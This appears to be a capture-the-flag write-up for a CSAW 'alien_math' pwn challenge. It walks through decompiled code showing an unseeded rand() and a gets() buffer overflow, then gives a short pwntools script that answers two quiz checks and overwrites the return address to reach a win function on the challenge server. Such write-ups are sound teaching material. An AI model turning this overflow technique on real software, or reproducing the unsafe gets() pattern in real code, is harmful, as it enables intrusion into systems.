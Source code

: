 ## Description:
Brush off your Flirbgarple textbooks!

---

A simple ret2win challenge. There is a buffer overflow in the `final_question` function.

```c
  __int64 v1[2]; // [rsp+0h] [rbp-10h] BYREF

  v1[0] = 0LL;
  v1[1] = 0LL;
  puts("How long does it take for a toblob of energy to be transferred between two quantum entangled salwzoblrs?");
  fflush(stdout);
  getchar();
  return gets(v1);
```

To get to this one, we need to pass the previous 2 questions.

`first_question`:

```c
...
  puts("\n==== Flirbgarple Math Pop Quiz ====");
  puts("=== Make an A to receive a flag! ===\n");
  puts("What is the square root of zopnol?");
  fflush(stdout);
  __isoc99_scanf(" %d", &v5);
  random_number = rand();
  if ( random_number == v5 )
  {
    puts("Correct!\n");
    fflush(stdout);
    getchar();
    puts("How many tewgrunbs are in a qorbnorbf?");
    fflush(stdout);
    __isoc99_scanf("%24s", v4);
    second_question(v4);
...
```

There was no call to `srand()` before `rand()`, so the random number just stays the same everytime we run the binary. With gdb, we can see that the first input is `1804289383`.

`second_question`:

```c
  int v1; // ebx
  size_t v3; // rax
  char s1[28]; // [rsp+10h] [rbp-30h] BYREF
  int i; // [rsp+2Ch] [rbp-14h]

  for ( i = 0; i < strlen(input) - 1; ++i )
  {
    if ( input[i] <= 47 || input[i] > 57 )
    {
      puts("Xolplsmorp! Invalid input!\n");
      return puts("You get a C. No flag this time.\n");
    }
    v1 = input[i + 1] - 48;
    input[i + 1] = (int)(v1 + second_question_function((unsigned int)input[i], (unsigned int)(i + input[i]))) % 10 + 48;
  }
  strcpy(s1, "7759406485255323229225");
  v3 = strlen(s1);
  if ( strncmp(s1, input, v3) )
    return puts("You get a C. No flag this time.\n");
  puts("Genius! One question left...\n");
  final_question();
  return puts("Not quite. Double check your calculations.\nYou made a B. So close!\n");
```

You can reverse this function to find the correct input, or just be lazy like me and set a breakpoint in gdb to check which value it is compared to. The second input is `7856445899213065428791`.

```python
from pwn import *

# p = process('./alien_math')
p = remote('pwn.chal.csaw.io', 5004)

p.recv()
p.sendline(b'1804289383')

p.recv()
p.sendline(b'7856445899213065428791')

p.recv()

payload = b'a'*24
payload += p64(0x004014fb)

p.sendline(payload)

p.interactive()
```